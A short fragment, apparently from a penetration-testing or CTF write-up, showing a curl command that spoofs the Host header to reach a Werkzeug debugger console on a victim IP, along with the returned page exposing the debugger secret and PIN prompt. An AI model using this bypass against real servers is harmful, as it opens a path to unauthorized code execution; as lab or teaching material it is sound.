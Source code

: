```shell
curl -H "Host: 127.0.0.1" http://<IP_VICTIM>:9000/console
```

Info:

```
<!doctype html>
<html lang=en>
  <head>
    <title>Console // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = true,
          EVALEX = true,
          EVALEX_TRUSTED = true,
          SECRET = "MKZonli1puF4yZAA1HyW";
    </script>
  </head>
  <body style="background-color: #fff">
    <div class="debugger">
<h1>Interactive Console</h1>
<div class="explanation">
In this console you can execute Python expressions in the context of the
application.  The initial namespace was created by the debugger automatically.
</div>
<div class="console"><div class="inner">The Console requires JavaScript.</div></div>
      <div class="footer">
        Brought to you by <strong class="arthur">DON'T PANIC</strong>, your
        friendly Werkzeug powered traceback interpreter.
      </div>
    </div>

    <div class="pin-prompt">
      <div class="inner">
        <h3>Console Locked</h3>
        <p>
          The console is locked and needs to be unlocked by entering the PIN.
          You can find the PIN printed out on the standard output of your
          shell that runs the server.
        <form>
          <p>PIN:
            <input type=text name=pin size=14>
            <input type=submit name=btn value="Confirm Pin">
        </form>
      </div>
    </div>
  </body>
</html>
```
